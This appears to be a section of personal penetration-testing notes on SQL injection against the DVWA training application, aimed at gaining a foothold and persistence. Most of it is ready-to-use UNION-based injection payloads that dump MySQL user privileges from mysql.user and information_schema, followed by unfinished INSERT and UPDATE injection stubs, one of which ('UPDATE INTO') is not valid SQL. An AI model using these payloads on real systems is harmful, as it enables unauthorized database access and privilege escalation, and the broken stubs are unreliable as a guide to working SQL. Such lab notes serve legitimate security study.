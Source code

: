 # 04 - Initial Foothold and Persistence

Search Tag: #sql-injection #union #initial-foothold #persistence #enumeration-and-discovery #webshell #dvwa

## 4.1 - Create User Account

TODO: Figure out using SQL queries to create a user account in the current database, and create a database user account for the DBMS server

### 4.1.1 - Current Database User Account

#### 4.1.1.1 - Conditions

1. The DB user must have **SELECT**, **INSERT**, **UPDATE**, **DELETE**, **DROP** privileges.

#### 4.1.1.2 - Enumerate Database User Privileges

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user WHERE user = 'dvwa'#

' UNION SELECT NULL, CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user WHERE Select_priv = 'Y' OR Insert_priv = 'Y' OR Update_priv = 'Y' OR Delete_priv = 'Y' OR Drop_priv = 'Y'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE GRANTEE LIKE "'dvwa'%"#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SELECT' OR PRIVILEGE_TYPE LIKE 'INSERT' OR PRIVILEGE_TYPE LIKE 'UPDATE' OR PRIVILEGE_TYPE LIKE 'DELETE' OR PRIVILEGE_TYPE LIKE 'DROP' AND GRANTEE LIKE "'dvwa'%"#
```

#### 4.1.1.3 - INSERT values

`' INSERT INTO dvwa.users values()#`

#### 4.1.1.4 - UPDATE values

`' UPDATE INTO dvwa.users values()#`
